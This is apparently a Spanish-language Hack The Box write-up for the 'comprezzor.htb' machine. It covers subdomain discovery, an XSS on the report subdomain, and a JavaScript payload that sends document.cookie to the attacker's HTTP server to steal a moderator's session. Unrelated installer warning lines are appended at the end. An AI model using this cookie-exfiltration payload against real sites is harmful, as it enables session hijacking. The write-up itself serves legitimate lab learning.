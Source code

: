 - comprezzor.htb
- report.comprezzor.htb
- auth.comprezzor.htb
- dashboard.comprezzor.htb

En `auth.comprezzor.htb podemos hacernos una cuenta y acceder a `report.comprezzor.htb`

Vemos que se utiliza cifrado LMZA, esto nos recuerda al último backdoor que ocurrió en OpenSSH con la librería "xz" pero no van por ahí los tiros.

# FootHold

Encontramos un XSS en report.comprezzor.htb.
![Write-up Image](images/Screenshot_1.png)

```shell
$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.230.246 - - [29/Jul/2024 19:40:09] code 404, message File not found
10.129.230.246 - - [29/Jul/2024 19:40:09] "GET /img.png HTTP/1.1" 404 -
```

## Robando la cookie del moderador
Por lo cual, podemos probar a ver si no hay ningún tipo de sanitización y podemos inyectar un script de javascript.
```javascript
// evil.js
const cookies = document.cookie

fetch("http://10.10.14.71:8000/collect?c=" + document.cookie).
	then(d => console.log("Consulta realizada"))
```


[WARNING]: - /tmp/test.tar.gz was NOT installed successfully: Unknown error when
[WARNING]: - /tmp/test.tar.gz was NOT installed successfully: Unknown error when